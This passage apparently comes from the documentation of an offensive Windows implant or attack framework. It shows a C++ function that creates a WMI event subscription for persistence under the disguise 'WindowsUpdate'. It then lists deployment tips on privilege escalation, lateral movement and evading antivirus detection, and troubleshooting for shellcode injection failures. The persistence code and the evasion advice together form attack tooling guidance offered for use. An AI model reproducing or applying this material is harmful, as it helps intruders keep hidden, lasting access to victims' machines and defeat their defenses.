 ### Custom Persistence

```cpp
// Add custom persistence methods
bool InstallCustomPersistence(const std::string& payloadPath) {
    // WMI event subscription
    std::string command = "wmic /namespace:\\\\root\\subscription PATH __EventFilter CREATE Name=\"WindowsUpdate\", EventNameSpace=\"root\\cimv2\", QueryLanguage=\"WQL\", Query=\"SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'\", EventConsumerName=\"WindowsUpdate\"";
    
    return system(command.c_str()) == 0;
}
```

## 📚 Best Practices

### Development

1. **Code Review**: Thoroughly review all code before deployment
2. **Testing**: Test in isolated environments first
3. **Documentation**: Document all customizations
4. **Version Control**: Use version control for code management

### Deployment

1. **Environment Analysis**: Understand target environment
2. **Privilege Escalation**: Plan privilege escalation paths
3. **Lateral Movement**: Plan lateral movement strategies
4. **Cleanup**: Plan cleanup and persistence removal

### Detection Avoidance

1. **Signature Evasion**: Avoid common signatures
2. **Behavior Analysis**: Mimic legitimate applications
3. **Network Analysis**: Use legitimate traffic patterns
4. **Memory Analysis**: Minimize memory footprint

## 🆘 Troubleshooting

### Common Issues

1. **Compilation Errors**
   - Ensure Visual Studio is properly installed
   - Check Windows SDK version
   - Verify architecture settings

2. **Injection Failures**
   - Check target process privileges
   - Verify shellcode compatibility
   - Check anti-virus interference
